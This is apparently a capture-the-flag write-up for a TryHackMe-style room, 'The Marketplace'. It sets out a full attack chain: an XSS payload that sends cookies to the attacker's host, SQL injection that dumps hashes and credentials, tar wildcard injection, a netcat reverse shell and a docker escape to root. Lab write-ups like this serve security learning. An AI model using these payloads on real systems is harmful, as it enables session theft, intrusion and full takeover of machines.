 # The Marketplace

## Recon

### Port Scan

`nmap -sC -sV -A -oN nmap.txt 10.10.116.104`

![Untitled](images/Untitled.png)

## Web content

### The Marketplace

By listing, found a cookie token, when i put on cyber chef to decode it i could see a JWT token

![Untitled](images/Untitled%201.png)

Token: ‘`eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjQsInVzZXJuYW1lIjoidGVzdCIsImFkbWluIjpmYWxzZSwiaWF0IjoxNjczNzk2MjI3fQ.QUdHr_FrZmMTkyco74Cia9_ksfW6mmzfYTWnT7tQ5OU`’

![Untitled](images/Untitled%202.png)

By decoding the cookie we can manipulate the token and where it says admin false we can try to put admin true, it didn’t work..

On the listing field we can do XSS, so we used this payload ‘ `<script>fetch("http://10.9.11.107:8000/"+document.cookie)</script>` ’ to connect to my python tunnel

![Untitled](images/Untitled%203.png)

When it connected we got our token (test account) and the second is the admin’s token because we clicked on Report listening to admins

![Untitled](images/Untitled%204.png)

Admin’s token = ‘`eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2NzM3OTkyOTF9.31esCl2qfzIBP3ok0Ri9PXQtAP4c66dagyqQWUNP6hE`’

Swaped tokens on Burp and we could gain access to admin’s painel

![Untitled](images/Untitled%205.png)

### First flag

![Untitled](images/Untitled%206.png)

Usernames: system, michael, jake

After getting access to admin painel we tried some LFI and we got SQL error

![Untitled](images/Untitled%207.png)

Determine how many columns are returned, we can see that on the 5th column it shows this error so only give us 4 columns

Payload: `/admin?user=2 order by 5`

![Untitled](images/Untitled%208.png)

Columns that are reflected, only 1,2 are reflected

Payload: `/admin?user=0 union select 1,2,3,4`

![Untitled](images/Untitled%209.png)

Get database name

![Untitled](images/Untitled%2010.png)

Get tables

![Untitled](images/Untitled%2011.png)

Get columns

Payload: `http://10.10.134.33/admin?user=0 union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='users'`

![Untitled](images/Untitled%2012.png)

Get Hash from user michael

![Untitled](images/Untitled%2013.png)

Username: michael

Password:

Hash: `$2b$10$yaYKN53QQ6ZvPzHGAlmqiOwGt8DXLAO5u2844yUlvu2EXwQDGf/1q`

Get Hash from user jake

![Untitled](images/Untitled%2014.png)

Username: jake

Password:

Hash: `$2b$10$/DkSlJB4L85SCNhS.IxcfeNpEBn.VkyLvQ2Tk9p2SDsiVcCRb4ukG`

Cracking the hash was not successefull so we search on the database and found a table called Messages

![Untitled](images/Untitled%2015.png)

Found the ssh password using this payload:

`/admin?user=0 union select 1,group_concat(message_content),3,4 from messages`

![Untitled](images/Untitled%2016.png)

## Remote Access

`ssh jake@10.10.134.33`

![Untitled](images/Untitled%2017.png)

Found the 2nd flag ( user.txt ), `THM{c3648ee7af1369676e3e4b15da6dc0b4}`

![Untitled](images/Untitled%2018.png)

### Users

Order by permissions

jake < marketplace < michael < root

### Docker

`/home/marketplace/the-marketplace`

### Privilege escalation

Backup script running as michael with a wild card so we did wild card injection

![Untitled](images/Untitled%2019.png)

Manipulate the wild card with the following commands

`echo “” > ‘--checkpoint=1’`

`echo “” > ‘--checkpoint-action=exec=sh shell.sh’`

The code line in the background will look like this 

`tar cf /opt/backups/backup.tar --checkpoint=1 --checkpint-action=exec=sh shell.sh`

### Shell.sh

Reverse shell on the file so it runs as michael and we get vertical privilege escalation to the next user

`#!/bin/bash`

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.11.107 9999 >/tmp/f`

![Untitled](images/Untitled%2020.png)

`sudo -u michael /opt/backups/backup.sh`

## Docker to root

As user michael we could user the docker to gain root, i saw the images were there and used the alpine docker image.

Found the `docker.sock` was on `/run/docker.sock` as we saw on hacktricks website

![Untitled](images/Untitled%2021.png)

![Untitled](images/Untitled%2022.png)

Then we used this payload to gain root `docker run -it -v /:/host/ alpine chroot /host/ bash`

![Untitled](images/Untitled%2023.png)
